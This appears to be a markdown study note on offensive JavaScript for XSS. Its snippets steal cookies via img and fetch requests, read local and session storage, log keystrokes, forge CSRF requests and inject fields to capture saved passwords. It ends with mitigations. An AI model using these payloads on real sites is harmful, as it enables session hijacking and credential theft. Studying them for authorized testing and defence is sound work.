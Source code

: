 **📌 Offensive JavaScript Notes**

---

### 🚀 High-Level Summary

Cross-Site Scripting (XSS) can be utilized for more than just triggering `alert(1)` pop-ups. Attackers can leverage XSS for malicious activities like stealing sensitive data, manipulating DOM elements, and exfiltrating information to external servers. This document explores various techniques including accessing local and session storage, stealing cookies, and making unauthorized HTTP requests.

---

### 📦 Accessing Local & Session Storage

```javascript
let localStorageData = JSON.stringify(localStorage);
let sessionStorageData = JSON.stringify(sessionStorage);
```

- **localStorage**: Persistent storage (remains after closing the browser).
    
- **sessionStorage**: Temporary storage (cleared when the tab is closed).
    

Attackers can access and exfiltrate sensitive data stored here.

---

### 🍪 Stealing Cookies

```javascript
<img src="http://localhost?c=" + document.cookie />

fetch("http://localhost?c=" + document.cookie);
```

- `**document.cookie**` exposes cookies stored in the browser.
    
- Cookies can be **exfiltrated** using an `img` tag or the **Fetch API**.
    

Stolen cookies can be used to hijack sessions or perform unauthorized actions.

---

### 📡 Building HTTP Requests

#### **XMLHttpRequest**

```javascript
let xhr = new XMLHttpRequest();
xhr.open('GET', 'http://localhost/endpoint', true);
xhr.send('email=update@email.com');
```

#### **Fetch API** (Modern)

```javascript
fetch('http://localhost/endpoint');
```

- **Fetch API** is modern, promise-based, and cleaner than `XMLHttpRequest`.
    

Attackers can automate data exfiltration or perform unauthorized actions on a victim's behalf.

---

### 🛠️ Keylogging

```javascript
document.onkeypress = function(e) {
    let get = window.event ? event : e;
    let key = get.keyCode ? get.keyCode : get.charCode;
    key = String.fromCharCode(key);
    console.log(key);
}
```

- **Keylogging** captures every keystroke made by the user and logs it to the console.
    
- Often used to steal sensitive input like passwords and usernames.
    

---

### 🎭 Session Riding (CSRF)

```javascript
let xhr = new XMLHttpRequest();
xhr.open('POST', 'http://localhost/updateprofile', true);
xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
xhr.send('email=updated@email.com');
```

- **Session Riding (CSRF)** tricks a logged-in user into performing unauthorized actions.
    
- Prevent by using CSRF tokens and proper session handling.
    

---

### 🔑 Saved Credentials Capture

```javascript
let usernameField = document.createElement('input');
usernameField.type = 'text';
usernameField.name = 'username';
usernameField.id = 'username';

document.body.appendChild(usernameField);

let passwordField = document.createElement('input');
passwordField.type = 'password';
passwordField.name = 'password';
passwordField.id = 'password';

document.body.appendChild(passwordField);

setTimeout(function() {
    console.log("Username:", document.getElementById("username").value);
    console.log("Password:", document.getElementById("password").value);
}, 1000);
```

- **Saved Credentials Capture** attempts to steal credentials by injecting fields and logging their input.
    

---

### 🚀 Fetch API Basics

#### ✅ Basic Usage:

```javascript
async function fetchData() {
    const response = await fetch('https://example.com/data');
    const jsonData = await response.json();
    console.log(jsonData);
}
```

- `**await fetch()**` makes an HTTP request.
    
- `**.json()**` parses response into JSON.
    

#### ✅ POST Example:

```javascript
fetch('https://example.com/post', {
    method: 'POST',
    headers: { 'Content-Type': 'application/json' },
    body: JSON.stringify({ username: 'John' })
});
```

Attackers can use `fetch()` for data exfiltration and making unauthorized API calls.

---

### 🛡️ Security Risks

- **XSS (Cross-Site Scripting)**: Using JS to steal sensitive data.
    
- **Keylogging:** Logging user keystrokes.
    
- **Session Riding (CSRF):** Tricking users into making unintended requests.
    
- **Saved Credentials Capture:** Injecting input fields to steal data.
    

**Mitigation:** Use `**HttpOnly**`, **CSP**, CSRF Tokens, and proper input validation.

---

🔗 **Always test responsibly in authorized environments!**